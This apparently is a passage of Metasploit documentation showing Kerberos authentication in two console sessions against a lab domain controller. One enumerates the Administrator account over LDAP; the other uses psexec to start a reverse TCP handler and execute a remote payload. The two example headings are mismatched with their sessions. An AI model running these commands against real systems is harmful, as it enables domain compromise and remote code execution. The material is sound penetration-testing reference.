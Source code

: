 ## Service Authentication 
### Examples
Open a WinRM session:
```msf
msf6 > use auxiliary/gather/ldap_query
msf6 auxiliary(gather/ldap_query) > run action=ENUM_ACCOUNTS rhost=192.168.123.13 username=Administrator password=p4$$w0rd ldap::auth=kerberos ldap::rhostname=dc3.demo.local domain=demo.local domaincontrollerrhost=192.168.123.13
[*] Running module against 192.168.123.13

[+] 192.168.123.13:88 - Received a valid TGT-Response
[*] 192.168.123.13:389 - TGT MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120714_default_192.168.123.13_mit.kerberos.cca_216797.bin
[+] 192.168.123.13:88 - Received a valid TGS-Response
[*] 192.168.123.13:389 - TGS MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120714_default_192.168.123.13_mit.kerberos.cca_638903.bin
[+] 192.168.123.13:88 - Received a valid delegation TGS-Response
[*] Discovering base DN automatically
[+] 192.168.123.13:389 Discovered base DN: DC=adf3,DC=local
CN=Administrator CN=Users DC=adf3 DC=local
==========================================

 Name                Attributes
 ----                ----------
 badpwdcount         0
 description         Built-in account for administering the computer/domain
 lastlogoff          1601-01-01 00:00:00 UTC
 lastlogon           2023-01-23 11:02:49 UTC
 logoncount          159
 memberof            CN=Group Policy Creator Owners,CN=Users,DC=domain,DC=local || CN=Domain Admins,CN=Users,DC=domain,DC=local |
                     | CN=Enterprise Admins,CN=Users,DC=domain,DC=local || CN=Schema Admins,CN=Users,DC=domain,DC=local || CN=Adm
                     inistrators,CN=Builtin,DC=domain,DC=local
 name                Administrator
 objectsid           S-1-5-21-3402587289-1488798532-3618296993-500
 pwdlastset          133189448681297271
 samaccountname      Administrator
 useraccountcontrol  512

 ... etc ...
```

Query LDAP for accounts:
```msf
msf6 > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > run rhost=192.168.123.13 username=Administrator password=p4$$w0rd smb::auth=kerberos domaincontrollerrhost=192.168.123.13 smb::rhostname=dc3.demo.local domain=demo.local

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] 192.168.123.13:445 - Connecting to the server...
[*] 192.168.123.13:445 - Authenticating to 192.168.123.13:445|demo.local as user 'Administrator'...
[+] 192.168.123.13:445 - 192.168.123.13:88 - Received a valid TGT-Response
[*] 192.168.123.13:445 - 192.168.123.13:445 - TGT MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120911_default_192.168.123.13_mit.kerberos.cca_474531.bin
[+] 192.168.123.13:445 - 192.168.123.13:88 - Received a valid TGS-Response
[*] 192.168.123.13:445 - 192.168.123.13:445 - TGS MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120911_default_192.168.123.13_mit.kerberos.cca_169149.bin
[+] 192.168.123.13:445 - 192.168.123.13:88 - Received a valid delegation TGS-Response
[*] 192.168.123.13:445 - Selecting PowerShell target
[*] 192.168.123.13:445 - Executing the payload...
```